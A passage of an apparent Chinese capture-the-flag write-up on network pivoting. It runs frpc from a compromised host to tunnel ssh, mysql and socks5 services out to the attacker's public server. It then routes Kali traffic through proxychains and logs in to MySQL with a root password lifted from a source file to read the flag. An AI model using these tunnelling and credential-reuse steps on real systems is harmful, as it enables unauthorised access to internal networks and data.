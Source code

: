 修改时候，这里使用 ```cat >> frpc.ini << EOF``` 命令，但是没有权限，参照别人的操作，在 ```/tmp``` 目录下创建 ```frpc.ini``` 进行操作

**注意：一定要把 frpc.ini 中的注释去掉，不然可能有奇奇怪怪的 bug**

然后在 ```/tmp``` 目录下运行
```shell
/app/tools/frpc -c ./frpc.ini
```

操作成功会显示如下
```
$ /app/tools/frpc -c ./frpc.ini
2023/10/26 23:36:27 [I] [service.go:299] [62036f73016466e5] login to server success, get run id [62036f73016466e5], server udp port [0]                                                                                                                                     
2023/10/26 23:36:27 [I] [proxy_manager.go:142] [62036f73016466e5] proxy added: [ssh mysql plugin_socks5 redis]
2023/10/26 23:36:27 [I] [control.go:172] [62036f73016466e5] [ssh] start proxy success
2023/10/26 23:36:27 [I] [control.go:172] [62036f73016466e5] [mysql] start proxy success
2023/10/26 23:36:27 [I] [control.go:172] [62036f73016466e5] [plugin_socks5] start proxy success
2023/10/26 23:36:27 [I] [control.go:172] [62036f73016466e5] [redis] start proxy success
```

因为在外部服务器的 ```/app/dataSql.py``` 目录中获取到了 ```mysql``` 的用户名和密码，如下
```shell
db = pymysql.connect(
                    host="mysql",  # 数据库地址
                    port=3306,  # 数据库端口
                    user="root",  # 数据库用户名
                    passwd="The_P0sswOrD_Y0u_Nev3r_Kn0w",  # 数据库密码
                    database="messageboard",  # 数据库名
                    charset='utf8'
                )
```

所以直接尝试登录 ```mysql```

#### proxychains 配置代理

情景：假如我的 frp 的服务器（就是自己的公网服务器）为 192.168.179.129，现在想用 kali 方便操作，需要在 kali 这样设置

修改 kali 的  ```/etc/proxychains4.conf``` 文件
```shell
gedit /etc/proxychains4.conf
```

在最底下加上
```shell
socks5 192.168.179.129 7777
```

然后使用 mysql 的账户密码连接
```shell
proxychains4 mysql -h 192.168.179.129 -P 6300  -uroot -pThe_P0sswOrD_Y0u_Nev3r_Kn0w
```

连上数据库之后，直接查询内容得到flag
```shell
SHOW DATABASES;
SELECT table_name, column_name FROM information_schema.columns WHERE table_schema = 'messageboard';
USE messageboard;
SELECT flag FROM flag;
```
